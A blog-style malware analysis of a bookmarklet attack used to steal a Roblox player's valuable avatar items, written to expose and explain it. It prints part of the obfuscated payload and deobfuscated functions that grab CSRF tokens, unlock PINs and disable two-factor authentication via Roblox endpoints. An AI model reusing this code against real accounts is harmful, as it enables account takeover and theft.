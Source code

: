 ```yaml
---
title: Bookmarklet XSS Attacks - Real Roblox Malware
date: 2024-06-09 05:08:01 +0800
categories: [Whitebox]
tags: [javascript,xss,real]     # TAG names should always be lowercase
pin: true
---
```


## The Target

Some of us are lucky when it comes to investing. My friend (known as Gary from here on out) is one of these, but not in a way you might expect. Gary started playing Roblox when he was young just as I and many other kids did.
However, Gary took a liking to collecting hats and clothing on the website. He spent whatever birthday money and allowances he got on viking hats and fire-themed balaclavas for his avatar.

This seemed like a bit of a waste of money - at the time. Fast forward to nearly 10 years later, and now his vast collection is worth several thousand REAL dollars. Unfortunately, this amount of wealth comes with 
a large target on his back. Hackers are constantly attempting to get access to his items, through scam websites and malicious emails.

## The Attack

Recently, Gary got a message asking if someone could make some fanart of his unique avatar. He said sure. The artist responded they would start soon, but need him to send over a special texture map of his avatar. 
As far as I am told, this isnt completely out of the ordinary. The texture map can help a lot with correctly modeling avatars in animations, for example.

But then the artist sent Gary a link to a website - which I will not include here for obvious reasons - containing a 'bookmarkable button' to quickly generate texture maps for his avatar. How convenient and not suspicious 
at all!

Gary immediately asked me to take a look and see if the website was malicious or not. So I did. And boy did I find some stuff.

The website was relatively barebones except for a giant link-button and 'walkthrough' video explaining how to properly use it. The first thing I did was inspect the website's source. I couldn't help but immediately
notice a hilariously suspicious anchor element:

```javascript
<a href="javascript:const%20_0x4cc798%3D_0x2001%3B%28function%28_0x5d8d84%2C_0x388ac2%29%7Bconst%20_0x108b54%3D_0x2001%2C_0x39dcc9%3D_0x5d8d84%28%29%3Bwhile%28%21%21%5B%5D%29%7Btry%7Bconst%20_0x1b78d8%3D-parseInt%28_0x108b54%280x185%29%29%2F0x1%2A%28parseInt%28_0x108b54%280xc3%29%29%2F0x2%29%2B-parseInt%28_0x108b54%280x183%29%29%2F0x3%2A%28parseInt%28_0x108b54%280x152%29%29%2F0x4%29%2B-parseInt%28_0x108b54%280x17c%29%29%2F0x5%2B-parseInt%28_0x108b54%280x162%29%29%2F0x6%2A%28-parseInt%28_0x108b54%280xc2%29%29%2F0x7%29%2BparseInt%28_0x108b54%280x144%29%29%2F0x8%2B-parseInt%28_0x108b54%280x111%29%29%2F0x9%2BparseInt%28_0x108b54%280x142%29%29%2F0xa%2A%28parseInt%28_0x108b54%280xca%29%29%2F0xb%29%3Bif%28_0x1b78d8%3D%3D%3D_0x388ac2%29break%3Belse%20_0x39dcc9%5B%27push%27%5D%28_0x39dcc9%5B%27shift%27%5D%28%29%29%3B%7Dcatch%28_0x5c0eac%29%7B_0x39dcc9%5B%27push%27%5D%28_0x39dcc9%5B%27shift%27%5D%28%29%29%3B%7D%7D%7D%28_0x219d%2C0x1dfe2%29%2Cwindow%5B_0x4cc798%280xe9%29%5D%3Ddocument%5B_0x4cc798%280x110%29%5D%28_0x4cc798%280x169%29%29%5B0x0%5D%5B%27getAttribute%27%5D%28_0x4cc798%280x11a%29%29%2Cwindow%5B_0x4cc798%280xbd%29%5D%3D%27%27%29%3Bfunction%20_0x2001%28_0x34f505%2C_0x56e9bf%29%7Bconst%20_0x219db2%3D_0x219d%28%29%3Breturn%20_0x2001%3Dfunction%28_0x20010f%2C_0x526ece%29%7B_0x20010f%3D_0x20010f-0xa3%3Blet%20_0x3a8f3e%3D_0x219db2%5B_0x20010f%5D%3Breturn%20_0x3a8f3e%3B%7D%2C_0x2001%28_0x34f505%2C_0x56e9bf%29%3B%7Dconst%20acceptableHeaders%3D%7B%27accept%27%3A%27application%2Fjson%2C%5Cx20text%2Fplain%2C%5Cx20%2A%2F%2A%27%2C%27accept-language%27%3A_0x4cc798%280x13e%29%2C%27sec-ch-ua%27%3A_0x4cc798%280x116%29%2C%27sec-ch-ua-mobile%27%3A%27%3F0%27%2C%27sec-ch-ua-platform%27%3A_0x4cc798%280xa6%29%2C%27sec-fetch-dest%27%3A_0x4cc798%280x14c%29%2C%27sec-fetch-mode%27%3A_0x4cc798%280xa4%29%2C%27sec-fetch-site%27%3A_0x4cc798%280xec%29%2C%27sec-gpc%27%3A%271%27%7D%2CyourSitesURL%3D_0x4cc798%280xae%29%2CgetCsrfToken%3Dasync%28%29%3D%3E%7Bconst%20_0x3d5a96%3D_0x4cc798%2C_0x313a18%3Dawait%20fetch%28%27https%3A%2F%2Fapis.roblox.com%2Fuser-settings-api%2Fv1%2Fuser-settings%3FwhoCanJoinMeInExperiences%3DFollowers%27%2C%7B%27credentials%27%3A%27include%27%2C%27headers%27%3AacceptableHeaders%2C%27method%27%3A%27POST%27%2C%27mode%27%3A_0x3d5a96%280xa4%29%7D%29%5B_0x3d5a96%280x12b%29%5D%28_0x498197%3D%3E%7B%7D%29%3Bif%28%21_0x313a18%29return%20await%20getCsrfToken%28%29%3Blet%20_0x11d173%3D_0x313a18%5B_0x3d5a96%280xf8%29%5D%5B_0x3d5a96%280x129%29%5D%28_0x3d5a96%280xd4%29%29%3Bif%28%21_0x11d173%29return%20await%20getCsrfToken%28%29%3Breturn%20_0x11d173%3B%7D%2CunlockAccountByPin%3Dasync%20_0x181c0c%3D%3E%7Bconst%20_0xe09cf9%3D_0x4cc798%3Bfetch%28%27https%3A%2F%2Fauth.roblox.com%2Fv1%2Faccount%2Fpin%2Funlock%3Fpin%3D%27%2B_0x181c0c%2C%7B%27headers%27%3A%7B%27accept%27%3A_0xe09cf9%280xa9%29%2C%27accept-language%27%3A_0xe09cf9%280x13e%29%2C%27content-type%27%3A%27application%2Fjson%3Bcharset%3DUTF-8%27%2C%27sec-ch-ua%27%3A_0xe09cf9%280x116%29%2C%27sec-ch-ua-mobile%27%3A%27%3F0%27%2C%27sec-ch-ua-platform%27%3A_0xe09cf9%280xa6%29%2C%27sec-fetch-dest%27%3A_0xe09cf9%280x14c%29%2C%27sec-fetch-mode%27%3A_0xe09cf9%280xa4%29%2C%27sec-fetch-site%27%3A_0xe09cf9%280xec%29%2C%27sec-gpc%27%3A%271%27%2C%27x-csrf-token%27%3Aawait%20getCsrfToken%28%29%7D%2C%27referrer%27%3A_0xe09cf9%280xa3%29%2C%27referrerPolicy%27%3A_0xe09cf9%280xc0%29%2C%27body%27%3A_0xe09cf9%280x160%29%2B_0x181c0c%2B%27%5Cx22%7D%27%2C%27method%27%3A_0xe09cf9%280x137%29%2C%27mode%27%3A_0xe09cf9%280xa4%29%2C%27credentials%27%3A_0xe09cf9%280x12f%29%7D%29%5B%27then%27%5D%28_0xbcaa97%3D%3E_0xbcaa97%5B_0xe09cf9%280x178%29%5D%28%29%29%5B_0xe09cf9%280x108%29%5D%28async%20_0x1cbef2%3D%3E%7Bconst%20_0x25f449%3D_0xe09cf9%3Bif%28_0x1cbef2%5B%27includes%27%5D%28_0x25f449%280x143%29%29%29document%5B_0x25f449%280x151%29%5D%28_0x25f449%280x156%29%29%5B_0x25f449%280xad%29%5D%28_0x25f449%280x172%29%2C_0x181c0c%29%2CsetDescription%28%7B%27pin%27%3A_0x181c0c%7D%29%2CcontinueToTwoStep%28%29%2Cconsole%5B_0x25f449%280x14e%29%5D%28_0x25f449%280xcf%29%29%2Cdocument%5B_0x25f449%280xc6%29%5D%28%27PIN%27%29%5B_0x25f449%280xc1%29%5D%5B_0x25f449%280x13f%29%5D%3D_0x25f449%280x139%29%3Belse%20_0x1cbef2%5B_0x25f449%280xb3%29%5D%28_0x25f449%280xff%29%29%3Fdocument%5B_0x25f449%280xc6%29%5D%28_0x25f449%280x102%29%29%5B_0x25f449%280x125%29%5D%3D_0x25f449%280x164%29%3Adocument%5B_0x25f449%280xc6%29%5D%28_0x25f449%280x102%29%29%5B%27innerHTML%27%5D%3D_0x25f449%280x146%29%3B%7D%29%3B%7D%2CcreateOTPsession%3Dasync%28%29%3D%3E%7Bconst%20_0x1f209f%3D_0x4cc798%2C_0x1c30af%3Dawait%20fetch%28_0x1f209f%280xc5%29%2C%7B%27credentials%27%3A_0x1f209f%280x12f%29%2C%27headers%27%3A%7B%27Accept%27%3A_0x1f209f%280xa9%29%2C%27Accept-Language%27%3A%27en-US%2Cen%3Bq%3D0.5%27%2C%27Content-Type%27%3A_0x1f209f%280x136%29%2C%27x-csrf-token%27%3Aawait%20getCsrfToken%28%29%2C%27Sec-GPC%27%3A%271%27%2C%27Sec-Fetch-Dest%27%3A_0x1f209f%280x14c%29%2C%27Sec-Fetch-Mode%27%3A_0x1f209f%280xa4%29%2C%27Sec-Fetch-Site%27%3A_0x1f209f%280xec%29%7D%2C%27referrer%27%3A%27https%3A%2F%2Fwww.roblox.com%2F%27%2C%27body%27%3A_0x1f20
```

Clearly this was some obfuscated JavaScript. Even taking a look at some of the strings was damning - `creteOTPsession`, `getCsrfToken`, etc. I immediately told Gary to stop talking to this guy and block him.

But I decided to go a bit deeper and started deobfuscating the JavaScript. Hilariously, the author actually just used [this](https://deobfuscate.io/) link, so the process was fairly trivial. However, local variable
names were obviously still random hex strings and unable to be recovered.

## The Payload

As expected, the payload JavaScript was a large amount of fetch requests to endpoints related to account settings and security:

```javascript
const disable2fa = async (_0x28bbe9, _0x197e35, _0x4fe56d) => {
  _0x197e35 = _0x197e35 || 0x0;
  _0x197e35++;
  if (_0x197e35 >= 0x3) {
    return;
  }
  let _0x42560a = await fetch("https://twostepverification.roblox.com/v1/users/" + _0x28bbe9 + "/configuration/authenticator/disable", {
    'headers': Object.assign(acceptableHeaders, {
      'x-csrf-token': window.csrf
    }),
    'referrer': "https://www.roblox.com/",
    'referrerPolicy': "strict-origin-when-cross-origin",
    'method': "POST",
    'mode': 'cors',
    'credentials': 'include'
  })['catch'](() => {});
  if (_0x42560a.status === 0x193) {
    _0x4fe56d = _0x42560a.headers.get("x-csrf-token");
    await disable2fa(_0x28bbe9, _0x197e35, _0x4fe56d);
  } else {
    return true;
  }
```

Perhaps the most interesting part of the entire payload was the very first fetch request made. Before accessing any user settings or inventory listings, the script makes a call to lookup details for a user with
ID 6055914656 - 'badmilky22':

```javascript
fetch("https://users.roblox.com/v1/users/6055914656", {
  'headers': {
    'accept': "application/json, text/plain, */*",
    'accept-language': "en-GB,en-US;q=0.9,en;q=0.8",
    'sec-ch-ua': "\"Chromium\";v=\"118\", \"Brave\";v=\"118\", \"Not=A?Brand\";v=\"99\"",
    'sec-ch-ua-mobile': '?0',
    'sec-ch-ua-platform': "\"Windows\"",
    'sec-fetch-dest': 'empty',
    'sec-fetch-mode': "cors",
    'sec-fetch-site': "same-site",
    'sec-gpc': '1'
  },
  'referrer': "https://www.roblox.com/",
  'referrerPolicy': "strict-origin-when-cross-origin",
  'method': 'GET',
  'mode': "cors",
  'credentials': 'include'
```

After the call, the payload then passes the user's bio/description into the `parseBinary` function:

```javascript
const evil_email = parseBinary(_0x5dd11c.description);
```

That's odd. Why would it do that? Well, I decided to look at badmilky22's account description. It was just a bunch of binary:

![badmilky22](/assets/img/badmilky22.png)

Decoding this to ASCII gives the hacker's email address `lr46opcs@fastsearcher.com`! Later on in the payload, this email address is used when victim account details are hijacked.

Afterwards, the payload does some pretty standard hacker stuff like resetting passwords and disabling 2FA. 

## But... what about CORS?

I couldn't understand how the payload managed to get around CORS. For those of you unaware, Cross Origin Resource Sharing (CORS) is a security setting for HTTP that can easily stop CSRF attacks like this. The
gist is that JavaScript from another 'Origin' (i.e. not roblox.com) should NOT be able to make credentialed requests or access HTTP responses from credentialed requests on behalf of a user. In this case, the
malicious 'link' (`<a/>` tag) element embedded with obfuscated JavaScript should NOT be able to successfully make these malicious requests on behalf of a user.

At first I was convinced that this guy just didn't know what he was doing, but then I realized that the malicious domain site had been registered only 5 days prior, and that clearly some thought was put into this
payload. So I decided to watch the 'walkthrough' video. The video instantly clarified everything for me - the bookmark the site wanted you to make was NOT to the malicious domain, but to literally drag and drop
the link-button onto your bookmarks bar.

This creates what modern browsers call Bookmarklets - or 'bookmarks' that are actually just JavaScript code. This is incredibly valuable in a cross-site scripting attack as it can easily bypass any CORS restrictions.
As far as I am aware, this isn't a very widely used or discussed attack vector. The implications of 'stored-xss' on any origin site are massive. 

## Conclusion

It seems that this is simply an accepted facet of modern browsers. I personally have never heard of someone using bookmarklets for a legitimate purpose, and the attack implications are critical. I would seriously 
recommend Mozilla and Chrome consider disabling telemetry for JavaScript-enabled bookmarklets, or including a custom origin/header for bookmarklet requests.


